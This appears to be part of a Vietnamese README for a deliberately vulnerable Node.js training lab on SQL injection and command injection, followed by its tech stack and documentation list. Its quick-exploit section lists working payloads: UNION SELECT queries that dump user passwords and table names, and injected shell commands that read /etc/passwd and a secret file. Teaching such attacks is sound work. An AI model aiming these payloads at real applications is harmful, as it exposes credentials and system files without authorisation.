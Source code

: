 ## 🎯 Khai Thác Nhanh

### SQL Injection

```sql
-- Phát hiện lỗ hổng
'

-- Lấy flag
' UNION SELECT id, flag FROM secret--

-- Lấy users
' UNION SELECT username, password FROM users--

-- Xem các bảng
' UNION SELECT 1, name FROM sqlite_master WHERE type='table'--
```

### Command Injection

```bash
# Phát hiện lỗ hổng
8.8.8.8; whoami

# Liệt kê file
8.8.8.8; ls -la

# Lấy FLAG
8.8.8.8; cat secret.txt

# Đọc file hệ thống
8.8.8.8; cat /etc/passwd
```

## 🛠️ Tech Stack

-   **Backend:** Node.js 18+ + Express 4.x
-   **Database:** SQLite3
-   **Template:** EJS
-   **Frontend:** HTML5, CSS3, Vanilla JavaScript

## 📚 Tài Liệu

| File            | Mô tả                                    |
| --------------- | ---------------------------------------- |
| `README.md`     | Tài liệu tổng quan, hướng dẫn cài đặt    |
| `DEMO.md`       | Hướng dẫn chi tiết SQL Injection Lab     |
| `CMDI-GUIDE.md` | Hướng dẫn chi tiết Command Injection Lab |
| `QUICKSTART.md` | Hướng dẫn bắt đầu nhanh                  |
| `CHANGELOG.md`  | Lịch sử thay đổi version                 |
| `INFO.txt`      | Thông tin tổng quan (ASCII art)          |

